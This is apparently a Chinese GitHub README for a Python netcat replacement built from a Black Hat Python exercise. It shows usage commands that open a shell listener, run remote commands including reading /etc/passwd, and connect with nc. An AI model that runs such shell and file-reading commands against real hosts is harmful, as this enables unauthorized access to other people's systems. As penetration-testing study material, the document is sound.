 # simulation_netcat

日常攻防中，如果遇到没有安装netcat，却有python环境的服务器。

在这种情况下，要是能创建一个简单的网络客户端和服务端用来传送文件、远程执行命令，则大有用武之地。

[![img](https://camo.githubusercontent.com/9720111972806b0d6aa749d577980c88e1ae700828471da7091018065108afdd/68747470733a2f2f6b6f6d617265762e636f6d2f67687076632f3f757365726e616d653d4578704c616e67636e)](https://camo.githubusercontent.com/9720111972806b0d6aa749d577980c88e1ae700828471da7091018065108afdd/68747470733a2f2f6b6f6d617265762e636f6d2f67687076632f3f757365726e616d653d4578704c616e67636e)

------

🐍前言

案例来自《python黑帽子黑客与渗透测试编程之道》，翻译是大神@Gh0u1L5，腾讯玄武实验室安全研究员

书中一共24个实验，第一个实验（取代netcat），谈不上取代，只能说模拟。顾称simulation_netcat

💖环境

Win测试环境+kali测试环境+Ubuntu测试环境+pycharm开发环境

🎨简介

netcat俗称瑞士军刀，小巧灵活，牛逼plus，文件传输、反弹shell无所不能

🎄实例

- 查看帮助

```
python3 netcat.py --help
```

![image-20221230001426983](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300014203.png)

- 反弹shell

```
python3 netcat.py -t 192.168.31.19 -p 3333 -l -c
```

![image-20221230001532776](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300015869.png)

- 执行命令

```
python3 netcat.py -t 192.168.31.19 -p 3333 -l -e="cat /etc/passwd"
```

![image-20221230001658839](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300016983.png)

- nc融合

可作为服务端，客户端用原版nc同样可连接

```
nc 192.168.31.19 3333
```

![image-20221230001944498](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300019544.png)

- 问题

传输文件请用原版nc作为客户端

Linux-Linux测试成功

Windows-Linux测试成功

- 若遇到socket抛出的OSError: [Errno 99] Cannot assign requested address报错请自行google

